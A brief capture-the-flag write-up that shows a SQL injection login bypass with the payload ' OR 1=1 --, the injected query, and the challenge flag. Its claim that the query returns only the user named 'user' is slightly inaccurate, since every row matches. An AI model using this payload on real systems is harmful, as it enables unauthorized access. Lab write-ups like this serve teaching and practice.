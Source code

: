 # 🔑 Write-Up

As we can see from the webpage's tab, we can try with an SQL injection. 

We can put anything as `username`, and for the `password`:
```plaintext
' OR 1=1 --
```
So, if the query were something like this
```sql
SELECT id, username FROM users WHERE username='user' AND password='password'
```
the resulting query would be 
``` sql
SELECT id, username FROM users WHERE username='user' AND password='' OR 1=1 --
```
The `--` comments out everything that follows on the same line, making the query effective. Since 1=1 is always true, the condition `OR 1=1` will always return `TRUE`, and thus the query will return the user with the username `user` regardless of the password.

### 🚩 Flag

```plaintext
spritz{is_coming_Rome}
```